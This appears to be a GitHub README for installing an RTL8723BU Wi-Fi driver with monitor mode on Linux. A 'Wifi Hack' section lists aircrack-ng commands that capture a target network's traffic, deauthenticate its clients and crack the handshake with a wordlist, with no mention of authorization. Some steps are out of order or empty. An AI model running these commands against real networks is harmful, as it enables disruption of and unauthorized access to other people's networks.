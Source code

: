 # Wifi-hacking-rtl8723bu

To use your Realtek Semiconductor Corp. RTL8723BU 802.11b/g/n WLAN Adapter with **aircrack-ng**, you may need to install specific drivers that support monitor mode and packet injection. Here's a general guide to help you with the process on a Linux system:

### Step 1: Update Your System

Before installing any drivers, make sure your system is up to date:

```bash
sudo apt update
sudo apt upgrade
```

### Step 2: Install Required Packages

You'll need some essential packages for compiling the driver:

```bash
sudo apt install build-essential dkms git
```

### Step 3: Download and Install the Driver

1. **Download the Driver Source Code**:

   You can find the driver for the RTL8723BU on GitHub. Clone the repository using the following command:

   ```bash
   git clone https://github.com/rehan5039/Wifi-hacking-rtl8723bu.git
   ```

2. **Build and Install the Driver**:

   Navigate to the downloaded directory and build the driver:

   ```bash
   cd Wifi-hacking-rtl8723bu/rtl8723bu-master
   ```

   ```bash
   make
   ```

   ```bash
   sudo make install
   ```

4. **Load the Driver**:

   Once installed, load the driver using:

   ```bash
   sudo modprobe 8723bu
   ```

### Step 4: Enable Monitor Mode

After installing the driver, you can enable monitor mode using the following command:

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

*Note*: Replace `wlan0` with your actual wireless interface name if it's different.

### Step 5: Verify Installation

Verify that your adapter supports monitor mode and packet injection:

### Step 6: Wifi Hack

```bash
airodump-ng wlan0
```

```bash
airodump-ng -c [channel] --bssid [BSSID] -w  capture wlan0
```

```bash
aireplay-ng --deauth 10 -a [BSSID] wlan0
```

```bash
aircrack-ng capture.cap -w [wordlist]
```

You should see "Mode:Monitor" next to your wireless interface.

### Troubleshooting

- **Driver Compatibility**: If you face any issues, ensure the driver you are using is compatible with your kernel version.
- **Error Messages**: Check for error messages during the `make` or `make install` process. They can provide clues about what might be going wrong.
- **Reboot**: Sometimes, a simple reboot can help load the necessary drivers correctly.

This should set up your Wi-Fi adapter for use with **aircrack-ng**.


### Another Method

# rtl8723bu
Driver for Realtek RTL8723BU Wireless Adapter with Hardware ID `0bda:b720`

# How to use?
## Get the source first.
Get it from Github repository with the following command in the Linux terminal.
```
git clone https://github.com/rehan5039/Wifi-hacking-rtl8723bu.git
cd Wifi-hacking-rtl8723bu/rtl8723bu-master
```

## Concurrent or Non-Concurrent Mode
By default driver operates the hardware as a station AND as an access point *simultaneously*.  This will show two devices when you run the `iwconfig` command.

If you do not want two devices (station and an access point) *simultaneously*, then follow these instructions.

- Step 1: Run the following command in the Linux terminal. 
```
nano Makefile
```

- Step 2: Find the line that contains `EXTRA_CFLAGS += -DCONFIG_CONCURRENT_MODE` and insert a `#` symbol at the beginning of that line. This comments that line and disables concurrent mode.


## Manual install
Run the following commands in the Linux terminal.

```
make
sudo make install
sudo modprobe -v 8723bu
```
This driver can not work with the standard driver rtl8xxxu, thus you need to blacklist it. Run the following command
...
sudo nano /etc/modprobe.d/50-rtl8xxxu.conf
...
Add a single line: blacklist rtl8xxxu
...
## Automatic install using DKMS
If you don't want to worry about building/installing driver after kernel update, use this scenario. For Ubuntu/Debian install DKMS package using command `sudo apt install dkms`.

Then run following commands in terminal
```
source dkms.conf
sudo mkdir /usr/src/$PACKAGE_NAME-$PACKAGE_VERSION
sudo cp -r core hal include os_dep platform dkms.conf Makefile rtl8723b_fw.bin /usr/src/$PACKAGE_NAME-$PACKAGE_VERSION
sudo dkms add $PACKAGE_NAME/$PACKAGE_VERSION
sudo dkms autoinstall $PACKAGE_NAME/$PACKAGE_VERSION
```

### Steps to Ensure Correct Driver Use:
To ensure you're using the correct driver:

- **Blacklist the Default Driver:**
  To prevent the default `rtl8xxxu` driver from loading, create a blacklist file:

  ```bash
  echo "blacklist rtl8xxxu" | sudo tee /etc/modprobe.d/rtl8xxxu.conf
  ```

- **Rebuild and Reload Driver:**
  Ensure you are in the `rtl8723bu` directory and rebuild the module:

  ```bash
  make clean
  make
  sudo make install
  sudo modprobe 8723bu
  ```

- **Verify the Driver:**
  After loading the module, verify the driver in use:

  ```bash
  iwconfig
  ```
  

### Steps to Resolve the Issue

To proceed with using `aircrack-ng`, you'll want to stop these processes to prevent interference:

1. **Stop Interfering Processes**:

   Use `airmon-ng` to check for interfering processes and kill them:

   ```bash
   sudo airmon-ng check kill
   ```

   This command will stop `NetworkManager` and `wpa_supplicant`, which might be putting the interface back to managed mode.

2. **Enable Monitor Mode**:

   Now that the interfering processes are stopped, put the interface in monitor mode again using:

   ```bash
   sudo airmon-ng start wlan0
   ```

3. **Verify Monitor Mode**:

   You can verify that the interface is in monitor mode by checking with:

   ```bash
   iwconfig
   ```

   It should display `Mode:Monitor` next to `wlan0`.

4. **Use Aircrack-ng**:

   Now you can use tools like `airodump-ng` and `aireplay-ng` to start your wireless security testing:

   ```bash
   sudo airodump-ng wlan0
   ```

5. **Restart Services**:

   Once you are done using monitor mode, you can restart the services to restore normal wireless functionality:

   ```bash
   sudo systemctl restart NetworkManager
   ```

This process should enable you to use your RTL8723BU Wi-Fi adapter with `aircrack-ng` for network security testing.
